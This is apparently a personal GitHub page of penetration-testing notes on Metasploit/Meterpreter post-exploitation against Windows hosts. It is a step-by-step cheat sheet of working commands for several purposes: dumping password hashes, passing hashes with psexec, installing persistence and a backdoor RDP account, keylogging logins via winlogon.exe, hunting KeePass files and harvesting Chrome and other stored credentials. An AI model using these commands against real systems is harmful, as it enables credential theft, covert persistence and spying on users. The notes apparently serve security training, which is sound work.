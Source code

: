 # pen-leviathan
pentesting notes

## Priv Escalation
- If we grab hashes for a system, we can use `mimikatz` to grab them from memory. This needs to be done in a 64 bit process so that meterpreter can load the module without problem.
- Run `sysinfo` and check Meterpreter value. (x86/win32 aint gonna cut it)
- To find a process to migrate to, run `ps -A x86_64 -s` when you are a `system`. This will display available compatible processes to migrate to.

## Grab hashes
- `run post/windows/gather/smart_hashdump`
- Now you can run `creds` or `loot` in the msf console to see the data as well.
- use `exploit/windows/smb/psexec`
- set usersname and then the password hash

 ## Backdoor Installation
 - For windows systems, once you have a meterpreter session, `run persistence`
 - `run getgui -e -u atk_user -p atk_password`
 - RDP Service is now started and user 'atk_user' with password 'atk_password' can now rdp into the machine.

## Pillaging
Commands inside of meterpreter for pillaging data
- sysinfo
-- if server, for example, we would know to search and see what type of services are running (in shell this would be `wmic service where started=true get catption`
- getuid

Meterpreter has a good set of gather utilities under:
- run post/windows/gather OR
- run post/linux/gather
These can also be used outsie of the meterpreter session. You just need to use the `use` command, configure its options with `set` and then execute the module with `run`

### Windows
- run post/windows/gather/enum_domains

If the machine is part of a domain, we can enumerate accounts and other information in the default active domain
- run post/windows/gather/enum_ad_users
- In a shell, run `net localgroup` to list groups and `net localgroup [GROUPNAME]` to list members of a specific group
To figure out what resources are shared:
- run enum_shares (same as `net share` in a shell)

The two main scripts to use against windows hosts are:
- scraper - harvests system info including network shares, registry hives, and password hashes
- winenum - retrieves all kinds of info about the system including env vars, networking interfaces, routing, user accounts, and much more
- Both of the above are invoked using `run winenum` or `run scraper`. Files are saved locally.

Keyloggers:
These only record the keys of the process the session has been migrated to. So if you want info when a user logs into their computer, you need to be migrated to the `winlogon.exe` process.
- `run keylogrecorder` <- there is a `-c` option that allows you to automate the migration into the correct process.
- `run post/windows/capture/keylog_recorder`

Searching for files:
- From a meterpreter session: `search -d C:\\Users\\els\\ -f *.kdbx` <- password database file extension

Downloading files:
- use the download command.

Gather Credentials:
- `run post/windows/gather/credentials/`
- In the parent directory, there are useful scripts as well. For example the `enum_chrome` script can be used to gather credentials stored in Google Chrome

List Applications:
- `run post/windows/gather/enum_applications`

Other:
- `run post/windows/gather/credentials/credential_collector`

### Linux
https://n0where.net/linux-post-exploitation

